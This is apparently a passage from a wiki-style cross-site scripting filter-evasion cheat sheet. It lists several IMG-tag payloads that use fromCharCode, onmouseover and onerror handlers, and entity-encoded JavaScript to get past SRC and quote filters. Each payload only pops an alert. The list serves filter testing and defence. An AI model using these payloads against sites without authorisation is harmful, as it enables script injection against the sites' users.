 ## <span id="fromCharCode" class="mw-headline">fromCharCode</span>

If no quotes of any kind are allowed you can eval() a fromCharCode in JavaScript to create any XSS vector you need:

<pre>&lt;IMG SRC=javascript:alert(String.fromCharCode(88,83,83))&gt;
</pre>

## <span id="Default_SRC_tag_to_get_past_filters_that_check_SRC_domain" class="mw-headline">Default SRC tag to get past filters that check SRC domain</span>

This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like onblur, onclick giving you an extensive amount of variations for many injections listed here. Submitted by David Cross .

Edited by Abdullah Hussam(@Abdulahhusam).

<pre>&lt;IMG SRC=# onmouseover="alert('xxs')"&gt;
</pre>

## <span id="Default_SRC_tag_by_leaving_it_empty" class="mw-headline">Default SRC tag by leaving it empty</span>

<pre>&lt;IMG SRC= onmouseover="alert('xxs')"&gt;
</pre>

## <span id="Default_SRC_tag_by_leaving_it_out_entirely" class="mw-headline">Default SRC tag by leaving it out entirely</span>

<pre>&lt;IMG onmouseover="alert('xxs')"&gt;
</pre>

## <span id="On_error_alert" class="mw-headline">On error alert</span>

<pre>&lt;IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"&gt;&lt;/img&gt;
</pre>

## <span id="IMG_onerror_and_javascript_alert_encode" class="mw-headline">IMG onerror and javascript alert encode</span>

<pre>&lt;img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"&gt;
</pre>
